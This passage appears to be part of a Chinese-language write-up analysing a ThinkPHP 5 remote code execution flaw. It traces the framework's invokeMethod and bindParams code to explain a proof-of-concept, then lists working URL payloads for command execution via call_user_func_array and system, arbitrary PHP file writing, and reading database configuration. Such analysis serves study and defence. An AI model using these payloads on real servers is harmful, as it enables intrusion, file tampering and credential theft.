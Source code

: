 ```php
        throw new HttpException(404, 'method not exists:' . get_class($instance) . '->' . $action . '()');
    }

    Hook::listen('action_begin', $call);

    return self::invokeMethod($call, $vars);// 调用函数
}
```
拿到实例化后的对象和方法，动态调用`invokeMethod`
```php
public static function invokeMethod($method, $vars = [])
{
    if (is_array($method)) {
        $class   = is_object($method[0]) ? $method[0] : self::invokeClass($method[0]);
        $reflect = new \ReflectionMethod($class, $method[1]);
    } else {
        // 静态方法
        $reflect = new \ReflectionMethod($method);
    }

    $args = self::bindParams($reflect, $vars);// 获取参数内容 这里获取到参数用做method的参数输入

    self::$debug && Log::record('[ RUN ] ' . $reflect->class . '->' . $reflect->name . '[ ' . $reflect->getFileName() . ' ]', 'info');

    return $reflect->invokeArgs(isset($class) ? $class : null, $args);
}
```
这里使用bindParams函数从get或post中获取到对应的内容，需要注意的是，做参数嵌入时，需要以函数的参数名为键
如invokeFunction的参数为`$function`、`$vars`，那么在参数中就需要以`function=xxx&vars[0]=xxx&vars[1]=xxx`
即poc的后半部分`function=call_user_func_array&vars[0]=system&vars[1][]=ls%20-l`
所以调用链现在变成了
  1. 动态调用\think\app invokeFunction函数
  2. 提供function=call_user_func_array作为invokeFunction动态调用的参数，所以下一步调用call_user_func_array函数
  3. call_user_func_array的参数为system函数，system函数的参数为ls -l，所以这里用了2维数组


![93754c5f.png](/attachments/93754c5f.png)
所以我们可以发散一下思维，我们其实不单单可以调用\think\app这个类，如果其他的类可以任意调用其他函数，或者是调用命令执行函数，同样具有危害性
如任意命令执行
`?s=/index/think\view\driver\php/display&content=<?php%20phpinfo();`
任意文件写入，生成在index.php同一级目录
`?s=index/\think\template\driver\file/write&cacheFile=test.php&content=<?php%20phpinfo();`
获取配置信息
`?s=index/\think\config/get&name=database.username`
